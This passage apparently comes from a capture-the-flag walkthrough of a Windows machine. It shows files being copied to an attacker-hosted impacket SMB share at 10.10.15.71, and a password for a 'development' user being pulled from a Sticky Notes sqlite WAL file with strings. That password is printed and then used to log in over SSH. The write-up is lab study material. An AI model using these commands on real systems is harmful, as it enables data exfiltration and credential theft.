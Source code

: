 Transfer files with smb
```bash
impacket-smbserver -smb2support smb .
cp <filename> \\10.10.15.71\smb
```

![](screenshots/smb-transfer.png)

I Really don't know how to open these file in linux but running strings over "plum.sqlite-wal" found "development" user's (looks like a) password
```bash
❯ strings plum.sqlite-wal| grep development | tail -n1
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```

And passowrd work for ssh login

![](screenshots/ssh-dev.png)


Now we can access to `C:\Development` and there is a linux binary.

Download to local machine with smb

![](screenshots/smb-download-elf.png)
